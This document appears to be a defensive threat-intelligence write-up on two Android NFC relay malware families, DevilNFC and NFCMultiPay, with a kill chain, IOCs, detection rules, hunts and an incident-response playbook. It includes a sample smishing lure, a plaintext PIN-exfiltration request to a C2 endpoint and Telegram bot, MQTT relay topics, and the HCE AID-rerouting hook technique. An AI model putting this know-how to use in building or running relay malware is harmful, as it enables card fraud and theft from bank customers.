

# DevilNFC and NFCMultiPay — locally-built Android NFC relay malware (Spanish + Brazilian TAs, AI-assisted)

## TL;DR

DevilNFC and NFCMultiPay are two previously-undocumented Android NFC relay malware families analysed by Cleafy's Threat Intelligence and Response (TIR) team (publication 2026-05-18; DevilNFC recovered from a victim device during a Cleafy IR engagement in March 2026). Both perform real-time NFC relay fraud against European and LATAM banking customers — a victim is socially engineered into tapping their physical card against an infected phone, the contactless APDU stream is relayed live to a "tapper" device at an ATM or POS, and the victim's card PIN is harvested as a core step so the fraud extends beyond contactless limits to chip-and-PIN and ATM withdrawals. The standout is attribution: a technique previously monopolised by Chinese-speaking MaaS operators (SuperCard X) has been independently rebuilt by local actors — DevilNFC carries an exclusively Spanish-speaking fingerprint, NFCMultiPay a Portuguese (Brazilian) one — with both showing AI-assisted-development tells. We pick it today (Saturday weekend auto-rescue) because slot #11 (Mobile) has never been a repo primary in 47 days, and the durable detection value (HCE AID-routing abuse, Kiosk lock, PIN-overlay, OTP forwarding, MQTT/REST relay transport) survives the per-build churn of this fast-fragmenting threat class.

## Attribution and confidence

**Clusters:** **DevilNFC** (Spanish-speaking TA; single dual-role APK built on NFCGate) and **NFCMultiPay** (Portuguese/Brazilian TA; pure-Java reader + cloud broker, relay core leaked from an undocumented Chinese-authored component). Named by Cleafy TIR. The two families share **no code and no infrastructure** — they are independent operators converging on the same technique and target geography.

**Vendor / date:** Cleafy Labs (TIR), "NFC Relay Goes Local: How AI Is Accelerating a New Wave of Independent Malware Developers", 2026-05-18. Independently corroborated by ESET Research (NGate / trojanised HandyPay, Brazil), 2026-04-21.

**Confidence:** **high** on the technical mechanics and IOCs (vendor RE with code excerpts, live C2 capture, recovered victim-device artifacts, published hashes). **medium-high** on the language attribution (native-language source comments, log strings, C2 panel language, social-engineering copy — these indicate developer language, not nationality or a named group). No named-actor attribution is claimed.

| Overlap signal | What it suggests | Strength |
|---|---|---|
| NFCGate-derived relay core (`libnfcgate.so`) | Shared academic foundation across the whole family lineage (SuperCard X, NFU Pay, NGate, DevilNFC) | high — common DNA, not a link between operators |
| NFCMultiPay Chinese source comments → replaced with English in v2 | Leaked Chinese-authored relay component wrapped in a Brazilian operational layer | medium — code reuse, not the same actor |
| AI-development tells (over-engineered phishing CSS/JS in DevilNFC; emoji + ASCII-box LLM logging in NFCMultiPay) | Uncensored local LLM scaffolding lowering the build bar | medium — pattern-based |
| Spanish vs Portuguese(BR) artifacts | Two distinct local TA clusters (EU + LATAM) | high — separate origins |

**Genealogy with previous repo cases.** Direct sibling of `2026-05-09_Albiriox-Android-MaaS-AcVNC` (Android MaaS, Accessibility abuse, Spanish/crypto targets) and `2026-05-08_CloudZ-RAT-Pheno-PhoneLink` (OTP/SMS theft). Where Albiriox abused AccessibilityService for on-device fraud (overlay + AcVNC), DevilNFC/NFCMultiPay abuse the **NFC/HCE stack** for a live card-present relay — a different primitive on the same mobile-banking-fraud vertical. Extends the "AI lowers the malware-development bar" thread (TrapDoor Day 28, AMOS OpenClaw skill Day 30) into the mobile space, and the "the technique outlives the build" thread (Aur0ra Day 36, LinkPro Day 46).

## Kill chain — summary table

| Stage | MITRE (Mobile) | Detail |
|---|---|---|
| Delivery | T1660 | Smishing / WhatsApp message → fake Play Store / bank "security update" page |
| Install | T1655.001 | Sideloaded APK masquerading as the victim's bank app (`com.devilnfc.reader`) |
| Foreground lock | T1541 | DevilNFC `KioskActivity` (lockTask), back button neutralised — victim trapped in fake UI |
| GUI input capture | T1417.002 | Fake "verification" pop-up harvests 4-digit card PIN; second form grabs e-banking password |
| SMS / OTP theft | T1636.004 / T1582 | `SmsPermissionManager` polls inbound SMS, forwards OTPs to C2 + Telegram |
| NFC read (reader role) | — (card-present relay) | Victim taps card; reader role uses standard ISO-DEP APIs (`android.permission.NFC`) |
| HCE emulate (tapper role) | — (card-present relay) | Attacker rooted phone emulates the card via HCE; Xposed hook on `findSelectAid()` reroutes AIDs |
| Relay transport | T1437.001 / T1521.001 | DevilNFC raw-TCP + Protobuf (OP_SYN/ACK/PSH/FIN); NFCMultiPay REST polling → MQTT 1883 |
| Exfiltration | T1646 | PIN + PAN-last4 + brand + bank + public IP to C2 (`api_pin.php`) and Telegram bot; MQTT retained msg |



The diagram's left lane is the victim's unrooted phone (phish → sideload → Kiosk lock → card tap + PIN/OTP capture); the right lane is the operator estate — C2 template/panel, Telegram exfil channel, the cloud relay broker (raw-TCP/Protobuf for DevilNFC, MQTT for NFCMultiPay), and the attacker's **rooted tapper** phone emulating the card at a real ATM/POS. The critical (red) anchors are the PIN-overlay capture and the HCE `findSelectAid()` AID-reroute on the tapper — the two surfaces that turn a relayed contactless read into an unconstrained cash-out, and that detection should target because the transport (IPs/domains/MQTT) rotates per build.

## Stage-by-stage detail

### 1. Delivery — smishing / WhatsApp to a fake update page (T1660)

The compromise begins with a phishing message over SMS or WhatsApp impersonating the victim's bank, directing them to a landing page that imitates the Google Play Store and presents the malware as a mandatory "security update". The DevilNFC screenshots in the Cleafy report were recovered directly from a victim device during a **March 2026 Cleafy IR engagement** with a Spanish banking institution.

```
# Typical lure flow (DevilNFC)
SMS/WhatsApp: "Su cuenta ha sido bloqueada. Instale la actualizacion de seguridad: hxxps://<fake-play>"
-> APK download (off-store)  ->  install  ->  open
```

### 2. Install — sideloaded fake-bank APK (T1655.001)

The victim sideloads an APK that masquerades as the bank's official app. DevilNFC's reader package is `com.devilnfc.reader`. NFCMultiPay ships a branded APK impersonating the target institution and is installed outside the Play Store under fraudster guidance.

### 3. Foreground lock — Kiosk Mode (DevilNFC) (T1541)

On launch DevilNFC immediately locks the device using Android's **Kiosk Mode**. `KioskActivity` hides the system UI and overrides the hardware back button with an intentionally empty handler, trapping the victim inside a fake banking interface (a social-engineering template **dynamically fetched from the C2**) with no exit while the relay completes. NFCMultiPay does not lock the device; instead the fraudster maintains live phone contact and supplies an out-of-band **connection PIN** to pair the session.

### 4. GUI input capture — PIN and password harvest (T1417.002)

PIN harvesting is a **baseline operational requirement**, not an optional enhancement: it is what lets the fraud move beyond the contactless ceiling to ATM withdrawals and chip-and-PIN purchases. In DevilNFC the PIN harvest fires after the first card tap — a remote-template pop-up asks for the 4-digit PIN, which is exfiltrated in plaintext to `api_pin.php` and a hardcoded Telegram bot alongside the bank name and the victim's public IP. The interface then deliberately throws a **fake verification error** instructing the victim to hold the card for another ~10 seconds — a designed extension of the relay window to ensure the fraudulent transaction settles before the success screen renders. A second form captures the online-banking password.

```
# DevilNFC PIN exfil (plaintext) — two destinations
POST https://<c2>/api_pin.php   pin=1234&bank=<name>&ip=<victim_public_ip>
-> Telegram bot sendMessage (same fields)
```

### 5. SMS / OTP interception (T1636.004, T1582)

DevilNFC's `SmsPermissionManager` silently **polls incoming SMS** in the background, intercepts OTPs dispatched by the bank shortly after a transaction, and forwards them to a dedicated C2 endpoint, which relays them into the attacker's private Telegram channel in real time — defeating the SMS-OTP step on the relayed transaction.

### 6-7. The relay — reader role vs HCE tapper role

NFC relay forwards the live **APDU** stream between the victim's physical card (read on the infected phone) and a payment terminal (a POS/ATM the attacker's "tapper" phone is held against). The technique traces to **NFCGate** (TU Darmstadt research tool); DevilNFC's native engine `libnfcgate.so` is a direct derivative.

**DevilNFC "Dual-Role APK".** A single APK serves both ends. On the victim's **unrooted** device the system-level hooks silently fail to initialise and it falls back to a **passive reader** using only standard Android APIs — nothing suspicious to a scanner. On the attacker's **rooted** device the same APK becomes a real **Host Card Emulator**, driven by the **Xposed Framework** injecting a hooking module into `com.android.nfc` (the system NFC process).

The HCE AID-routing trick is the clever part. To emulate a card, the tapper must declare which payment **Application Identifiers (AIDs)** it handles in `hce.xml`. Prior families were noisy about this:

```
SuperCard X : declares the full real AID set (Visa/Mastercard) in hce.xml  -> obvious to static analysis
NFU Pay     : declares only PPSE 2PAY.SYS.DDF01 (325041592E5359532E4444463031)
              -> wins the first SELECT, then handles the whole session
DevilNFC    : declares ONE non-payment dummy AID F0010203040506 (lifted from
              Google's HCE sample code). The Xposed hook on
              HostEmulationManager.findSelectAid() intercepts the internal AID
              lookup and remaps ANY incoming payment AID to the dummy, routing all
              APDUs into the relay pipeline. F0010203040506 never leaves the device.
```

So DevilNFC presents an innocuous manifest while still capturing every payment session — the durable behavioural anchor is the **hook on `findSelectAid()` + a single dummy AID handler**, not the manifest contents.

### 8. Relay transport and C2 (T1437.001, T1521.001)

**DevilNFC.** The APDU relay runs on a persistent **raw TCP socket** with **Google Protocol Buffers** serialization and a four-opcode state machine — `OP_SYN`, `OP_ACK`, `OP_PSH`, `OP_FIN` — for pairing and bidirectional frame routing, with `TCP_NODELAY` set to minimise latency against the terminal's response timeout. C2 domains observed: `nfcrackatm[.]com`, `spicynagets[.]shop`.

**NFCMultiPay.** Two variants show the toolkit maturing:
- v1 — **HTTPS REST polling**: validate session PIN at `/api/nfc/check-pin`, then loop on `/api/nfc/poll/<pin>` for inbound APDUs, POST responses to `/api/nfc/publish`. A fully-stubbed MQTT client is present but never invoked (planned upgrade).
- v2 — **event-driven MQTT** over TCP **1883**: victim subscribes to `nfc/relay/<pin>/apdu_request`, publishes to `nfc/relay/<pin>/apdu_response`; broker hostname is no longer cleartext but **AES/CBC + XOR** encrypted (T1521.001). A **retained message** (`retain=true`) on `nfc/relay/<pin>/card_ready` carries the victim's **PIN + last-4 PAN + brand** and persists on the broker, so any tapper that (re)connects after PIN entry immediately receives the stored credentials with no further victim interaction. C2 IPs: `185.203.116[.]18`, `47.253.167[.]219`.

## RE notes

| Component | Hash (MD5) | Lang | Packer | Notes |
|---|---|---|---|---|
| DevilNFC reader/dual-role APK | `caa5e8cf3275339d251210072ebe88c2` | Java/Kotlin + native | (APK) | `com.devilnfc.reader`; NFCGate `libnfcgate.so`; Xposed hook `findSelectAid()`; KioskActivity; dummy AID `F0010203040506` |
| NFCMultiPay APK (build A) | `35dd9c3a56e88a39bf6c8fdad46b0398` | pure Java | (APK) | REST polling variant; stubbed-but-unused MQTT client; Portuguese(BR) logs |
| NFCMultiPay APK (build B) | `9d19527aeb4cabfb40bbaea6d73b5ff0` | pure Java | (APK) | MQTT/1883 variant; AES/CBC+XOR broker host; retained `card_ready` |

**AI-development tells (defensive interest, not IOC).** DevilNFC's C2-served phishing templates are over-engineered relative to need — architecturally-structured CSS/JS, edge-case error handling, the deliberate first-tap fake error. NFCMultiPay's operator debug output uses emoji-categorised metric labels inside dense ASCII box-drawing borders — characteristic of LLM-generated logging scaffolding rather than a human picking a logging framework. ESET's April-2026 NGate variant (trojanised **HandyPay**, a legitimate NFC app) shows the same Portuguese(BR) + AI pattern, patching PIN-exfil into an existing app rather than authoring from scratch.

## Detection strategy

The reality: server-side bank-fraud controls catch most of this (impossible-travel between the card's home geo and the relay terminal, velocity, device-binding, behavioural biometrics). Endpoint/MTD detection is a complementary layer on managed fleets. Telemetry below assumes a Mobile Threat Defense (MTD) / Defender for Endpoint (mobile) estate.

### Telemetry that matters

- **MTD app-install + permission events** (`mobile_event`): sideloaded (non-store) installer, `android.permission.NFC`, registration of a `HostApduService` (`android.nfc.cardemulation.host_apdu_service` metadata), default-SMS or SMS-read grants.
- **Kiosk / lockTask** start by a non-MDM package, system-UI hide, and `TYPE_APPLICATION_OVERLAY` / WebView PIN prompts.
- **Defender for Endpoint (mobile)** `DeviceEvents`, `DeviceNetworkEvents`; `DeviceTvmSoftwareInventory` for the malicious package name.
- **Network egress** to the relay transports: raw-TCP to DevilNFC C2 domains, MQTT (TCP 1883) to NFCMultiPay brokers, Telegram Bot API (`api.telegram.org`) from a "banking" app, REST `/api/nfc/*`.
- **Issuer / acquirer side** (out of band but decisive): contactless authorisation whose terminal geo is implausible vs the cardholder, repeated `SELECT PPSE` from an HCE device, chip-and-PIN immediately after a contactless probe.

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | `sigma/android_nfc_hce_service_sideloaded_pkg.yml` | mobile_event: HostApduService / NFC permission on a non-store sideloaded package |
| Sigma | `sigma/android_kiosk_locktask_pin_overlay.yml` | mobile_event: lockTask/Kiosk start + overlay/WebView PIN prompt by non-MDM package |
| Sigma | `sigma/android_sms_otp_forward_sideloaded_pkg.yml` | mobile_event: SMS read/forward by a sideloaded package shortly after install |
| KQL | `kql/devilnfc_nfcmultipay_app_inventory.kql` | DeviceTvmSoftwareInventory / DeviceEvents: malicious package + NFC/SMS perms |
| KQL | `kql/devilnfc_c2_pin_exfil_network.kql` | DeviceNetworkEvents: DevilNFC C2 domains, `api_pin.php`, Telegram exfil |
| KQL | `kql/nfcmultipay_mqtt_rest_relay.kql` | DeviceNetworkEvents: NFCMultiPay IPs, MQTT 1883, `/api/nfc/*` REST endpoints |
| YARA | `yara/devilnfc_nfcmultipay_nfc_relay.yar` | DevilNFC (HCE dummy AID + Xposed hook + Kiosk), NFCMultiPay (MQTT/REST relay), NFCGate core |
| Suricata | `suricata/nfc_relay_c2_and_transport.rules` | DevilNFC C2 domains + `api_pin.php`, NFCMultiPay MQTT/IPs + `/api/nfc/poll` |

### Threat hunting hypotheses

- **H1** (`hunts/peak_h1_nfc_hce_relay_app_inventory.md`) — sideloaded Android packages that declare a `HostApduService` and request `android.permission.NFC`, especially named after a bank, installed shortly before a "security update" smishing wave. Card emulation by a non-wallet, non-bank app is the lead.
- **H2** (`hunts/peak_h2_kiosk_pin_overlay_otp_forward.md`) — behavioural chain on one device: Kiosk/lockTask start by a non-MDM app, a WebView/overlay PIN prompt, and SMS-OTP read+forward within minutes — the DevilNFC trap-and-harvest sequence.
- **H3** (`hunts/peak_h3_relay_transport_egress.md`) — relay-transport egress from the mobile fleet: MQTT (TCP 1883) to non-corporate brokers, raw-TCP to the DevilNFC C2 domains, and Telegram Bot API traffic from an app categorised as banking/finance.

## Incident response playbook

### First 60 minutes (triage)

1. Treat as **active card-present fraud**: immediately notify the issuer/fraud team to freeze the affected card(s) and watch for contactless/ATM authorisations from implausible terminal geographies.
2. Identify the malicious package on the device (`com.devilnfc.reader` or the NFCMultiPay bank-impersonating package) via MTD/MDE inventory; do not let the user "finish the update".
3. If the device is enrolled, **isolate** it in MDM and capture the installed-app inventory, granted permissions (NFC, SMS, overlay, device-admin/lockTask), and recent network destinations before remediation.
4. Pull the lure: the smishing/WhatsApp message and the fake-update URL; submit the URL and APK hash to the issuer's fraud intel and to MalwareBazaar/threat feeds.
5. Assume the **PIN, e-banking password and recent OTPs are compromised** — force credential reset through a trusted channel, not the phone under investigation.
6. Check whether the card was used at an ATM/POS in the relay window; the relayed transaction is card-present and may bypass naive contactless-limit controls.

### Artifacts to collect

| Artifact | Path / source | Tool | Why |
|---|---|---|---|
| Malicious APK | device `/data/app/<pkg>` or off-store download dir | MDM app-pull / `adb pull` | hash, package, manifest (HCE, perms) |
| App inventory + perms | MTD / `DeviceTvmSoftwareInventory` | Defender / MDM console | sideloaded pkg, NFC/SMS/overlay grants |
| Network destinations | `DeviceNetworkEvents` / MTD flow | Defender / MTD | C2 domains, MQTT 1883, Telegram, `/api/nfc/*` |
| Lure message + URL | SMS / WhatsApp thread | screenshot + URL submission | delivery vector, fake-update host |
| Manifest / `hce.xml` | inside APK | `apktool d` | `host_apdu_service`, dummy AID `F0010203040506` |
| Issuer auth log | acquirer/issuer side | fraud team | terminal geo, PPSE selects, contactless→PIN |

### IR queries and commands

```bash
# Inspect a recovered APK off-device (analyst workstation, not the victim phone)
apktool d sample.apk -o out/
grep -R "host_apdu_service" out/AndroidManifest.xml
grep -RniE "F0010203040506|2PAY.SYS.DDF01|libnfcgate|findSelectAid|api_pin.php" out/
grep -RniE "nfc/relay/|/api/nfc/(check-pin|poll|publish)" out/        # NFCMultiPay
```

```kql
// Managed Android devices that have the malicious package or emulate cards from a non-wallet app
DeviceTvmSoftwareInventory
| where SoftwareName in~ ("com.devilnfc.reader") or SoftwareName contains "nfcmultipay"
| project DeviceName, SoftwareName, SoftwareVersion
```

### Containment, eradication, recovery

Uninstall the malicious package via MDM and **revoke NFC/SMS/overlay/device-admin grants**; if the app held device-admin/lockTask, remove device-admin before uninstall. Block the C2 domains and NFCMultiPay broker IPs at the network egress and the Telegram exfil pattern where policy allows. **Exit criteria:** malicious package removed; no card-emulation service registered by a non-wallet app; affected cards reissued; PIN/password/OTP-protected accounts reset through a trusted channel; no further egress to the relay transports. **What NOT to do:** do not let the victim complete the "verification" flow (it is what triggers the relay + PIN capture); do not rely on the SMS-OTP on the compromised device as a reset factor; do not assume a contactless-limit cap protected the card — the PIN harvest defeats it.

### Recovery validation

Confirm the card was reissued and the old PAN/PIN retired; verify no card-emulation (`HostApduService`) is registered by any non-wallet/non-bank app on the device; re-baseline the device's installed-app inventory and granted permissions; add the malicious package names and C2/broker IOCs to MTD/MDE and egress blocklists; brief the user on the smishing→fake-update lure so a re-delivery does not re-infect.

## IOCs

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| domain | nfcrackatm[.]com | DevilNFC C2 / relay server | high | Cleafy |
| domain | spicynagets[.]shop | DevilNFC C2 / relay server | high | Cleafy |
| ipv4 | 185.203.116[.]18 | NFCMultiPay C2 / broker | high | Cleafy |
| ipv4 | 47.253.167[.]219 | NFCMultiPay C2 / broker | high | Cleafy |
| md5 | caa5e8cf3275339d251210072ebe88c2 | DevilNFC APK sample | high | Cleafy |
| md5 | 35dd9c3a56e88a39bf6c8fdad46b0398 | NFCMultiPay APK sample (REST variant) | high | Cleafy |
| md5 | 9d19527aeb4cabfb40bbaea6d73b5ff0 | NFCMultiPay APK sample (MQTT variant) | high | Cleafy |
| string | com.devilnfc.reader | DevilNFC APK package name | high | Cleafy |
| string | F0010203040506 | DevilNFC dummy HCE AID (Google sample) rerouted by findSelectAid() hook | high | Cleafy |
| string | 2PAY.SYS.DDF01 (325041592E5359532E4444463031) | PPSE AID won by HCE relay families (NFU Pay class) | medium | Cleafy |
| string | libnfcgate.so | NFCGate-derived native relay engine (DevilNFC) | high | Cleafy |
| string | api_pin.php | DevilNFC PIN/password exfil endpoint | high | Cleafy |
| string | nfc/relay/<pin>/card_ready | NFCMultiPay MQTT retained topic (PIN + last4 + brand) | high | Cleafy |
| string | /api/nfc/poll/ | NFCMultiPay REST relay polling endpoint (v1) | high | Cleafy |
| note | MQTT TCP 1883 to non-corporate broker from a banking app | NFCMultiPay v2 relay transport | medium | Cleafy |
| note | Xposed hook on HostEmulationManager.findSelectAid() | DevilNFC AID-reroute behavioural anchor | high | Cleafy |

Full machine-readable list in [`iocs.csv`](./iocs.csv).

## Secondary findings

- **AI lowers the malware-development bar (#18 AI/LLM).** NFC relay is a *narrow* category — read a card, forward the APDU stream, collect a PIN, no persistence engine or evasion framework to maintain — which makes it an ideal first target for AI-assisted development: an uncensored local LLM scaffolds the implementation from a spec, and an open-source foundation (NFCGate) removes the hardest part. The same dynamic will spread to Android RATs and banking trojans as leaked malware source accumulates in public repos to play NFCGate's role.
- **End of the Chinese-speaking MaaS monopoly (#24 CTI tradecraft).** Through 2024-2025, local fraud crews were *consumers* of Chinese-developed NFC relay tooling sold via Telegram MaaS. NFCMultiPay (Chinese relay core wrapped in a Brazilian operational layer, then de-Sinicised in v2) and DevilNFC (fully original Spanish stack on NFCGate) are two consecutive stages of a structural shift to **locally-built** toolkits — a genealogy/leak-forensics story as much as a malware one.
- **HCE AID routing is an under-watched abuse surface (#26/#11).** Android's Host Card Emulation routes APDUs to whichever service wins the first `SELECT`. Declaring only the PPSE (NFU Pay) or a single dummy AID plus an internal `findSelectAid()` hook (DevilNFC) lets a non-payment app silently own a payment session while presenting a clean manifest — the manifest AID list is not a reliable signal; the behaviour (card emulation by a non-wallet app) is.

## Pedagogical anchors

- **PIN harvest is the force-multiplier, not a footnote.** A pure relay is capped by contactless limits; harvesting the PIN turns it into unconstrained ATM withdrawals and global chip-and-PIN purchases. Both independently-built families treat PIN capture as a baseline step — design your detection and user messaging around "no legitimate app asks you to re-enter your card PIN to 'verify'".
- **The manifest lies; the behaviour does not.** DevilNFC declares one innocuous dummy AID and reroutes everything via an `findSelectAid()` hook. Hunt on *card emulation by a non-wallet/non-bank app* and on the hook, not on a static AID allow/deny list.
- **Transport rotates; primitives persist.** DevilNFC raw-TCP/Protobuf vs NFCMultiPay REST→MQTT/1883 are interchangeable plumbing. The durable anchors are HCE abuse, Kiosk lock, PIN overlay, OTP forwarding, and "two phones + a cloud broker" — anchor detections there.
- **Server-side fraud controls are the real backstop.** A relayed transaction is card-present from an implausible terminal geography with the cardholder's device elsewhere. Issuer-side impossible-travel/velocity/device-binding catches the cash-out even when the endpoint is clean — defence in depth across endpoint *and* issuer.
- **Open-source + uncensored LLM = a new class of independent developers.** The barrier that kept a technique concentrated among a few sophisticated groups can collapse quickly. Track the *capability diffusion*, not just named actors.

## What's in this folder

| File | Purpose |
|---|---|
| [`README.md`](./README.md) | This write-up (15 sections). |
| [`kill_chain.svg`](./kill_chain.svg) | Two-lane kill chain (victim phone vs operator infra + rooted tapper at POS/ATM). |
| [`sigma/android_nfc_hce_service_sideloaded_pkg.yml`](./sigma/android_nfc_hce_service_sideloaded_pkg.yml) | HostApduService / NFC permission on a sideloaded package (T1655.001). |
| [`sigma/android_kiosk_locktask_pin_overlay.yml`](./sigma/android_kiosk_locktask_pin_overlay.yml) | Kiosk/lockTask + overlay PIN prompt by non-MDM package (T1541/T1417.002). |
| [`sigma/android_sms_otp_forward_sideloaded_pkg.yml`](./sigma/android_sms_otp_forward_sideloaded_pkg.yml) | SMS/OTP read+forward by a sideloaded package (T1636.004/T1582). |
| [`kql/devilnfc_nfcmultipay_app_inventory.kql`](./kql/devilnfc_nfcmultipay_app_inventory.kql) | Malicious package + NFC/SMS permission inventory. |
| [`kql/devilnfc_c2_pin_exfil_network.kql`](./kql/devilnfc_c2_pin_exfil_network.kql) | DevilNFC C2 domains, `api_pin.php`, Telegram exfil. |
| [`kql/nfcmultipay_mqtt_rest_relay.kql`](./kql/nfcmultipay_mqtt_rest_relay.kql) | NFCMultiPay IPs, MQTT 1883, `/api/nfc/*` REST. |
| [`yara/devilnfc_nfcmultipay_nfc_relay.yar`](./yara/devilnfc_nfcmultipay_nfc_relay.yar) | DevilNFC, NFCMultiPay, and NFCGate-core APK/DEX rules. |
| [`suricata/nfc_relay_c2_and_transport.rules`](./suricata/nfc_relay_c2_and_transport.rules) | C2 domains, `api_pin.php`, MQTT/IPs, `/api/nfc/poll`. |
| [`hunts/peak_h1_nfc_hce_relay_app_inventory.md`](./hunts/peak_h1_nfc_hce_relay_app_inventory.md) | HCE-by-non-wallet-app inventory hunt. |
| [`hunts/peak_h2_kiosk_pin_overlay_otp_forward.md`](./hunts/peak_h2_kiosk_pin_overlay_otp_forward.md) | Kiosk + PIN-overlay + OTP-forward behavioural hunt. |
| [`hunts/peak_h3_relay_transport_egress.md`](./hunts/peak_h3_relay_transport_egress.md) | MQTT/raw-TCP/Telegram relay-transport egress hunt. |
| [`iocs.csv`](./iocs.csv) | Machine-readable IOCs + behavioural anchors. |

## Sources

- [Cleafy Labs — NFC Relay Goes Local: How AI Is Accelerating a New Wave of Independent Malware Developers (2026-05-18)](https://www.cleafy.com/cleafy-labs/nfc-relay-goes-local-how-ai-is-accelerating-a-new-wave-of-independent-malware-developers)
- [Cleafy Labs — SuperCard X: exposing a Chinese-speaker MaaS for NFC Relay fraud (2025)](https://www.cleafy.com/cleafy-labs/supercardx-exposing-chinese-speaker-maas-for-nfc-relay-fraud-operation)
- [ESET / WeLiveSecurity — New NGate variant hides in a trojanized NFC payment app (2026-04-21)](https://www.welivesecurity.com/en/eset-research/new-ngate-variant-hides-in-a-trojanized-nfc-payment-app/)
- [WeLiveSecurity — NGate Android malware relays NFC traffic to steal cash (original)](https://www.welivesecurity.com/en/eset-research/ngate-android-malware-relays-nfc-traffic-to-steal-cash/)
- [The Hacker News — SuperCard X Android Malware Enables Contactless ATM and PoS Fraud via NFC Relay (2025)](https://thehackernews.com/2025/04/supercard-x-android-malware-enables.html)
- [NFCGate — open-source NFC relay research tool (TU Darmstadt)](https://github.com/nfcgate/nfcgate)
- [MITRE ATT&CK Mobile — T1660 Phishing](https://attack.mitre.org/techniques/T1660/)
- [MITRE ATT&CK Mobile — T1636.004 Protected User Data: SMS Messages](https://attack.mitre.org/techniques/T1636/004/)
- [Android Developers — Host-based card emulation (HCE) overview](https://developer.android.com/develop/connectivity/nfc/hce)
